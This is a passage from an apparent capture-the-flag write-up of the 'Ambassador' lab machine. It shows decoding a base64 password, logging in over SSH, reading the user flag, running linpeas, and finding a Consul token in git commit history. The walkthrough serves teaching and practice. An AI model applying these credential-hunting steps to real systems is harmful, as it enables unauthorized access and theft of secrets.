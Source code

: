 - Decode the `base64` hash which can be identified by the two `==` at the end of the hash.

```bash
echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d
anEnglishManInNewYork027468
```

- We got a new password! Let's give it a go and `ssh` into the server as `developer` and see if it works.

```bash
ssh developer@ambassador.htb  
Password: anEnglishManInNewYork027468
```

- It does! We're in. We can see the user flag which we can grab right away.

```bash
cat user.txt 
7a66916c1c5853a796dc6434ec0fcfdb
```

- We can also see `.gitconfig` if we run `ls -lat`

```bash
cat .gitconfig

[user]
	name = Developer
	email = developer@ambassador.local
[safe]
	directory = /opt/my-app
```

- After some manual enumeration we run `linpeas.sh`  to get a better landscape of the server.
- There isn't much to go off of with the exception of the previously discovered `/opt/my-app`.

![image](https://0xc0rvu5.github.io/docs/assets/images/20230119225104.png)

Let's check it out.
- We can see some commit messages.
- We can go into the `/root` directory of `my-app` at `/opt/my-app` and check it out.

```bash
git log
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230119225327.png)

- Right off the bat we find some secrets.

```bash
git show 33a53ef9a207976d5ceceddc41a199558843bf3c

-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230119225452.png)
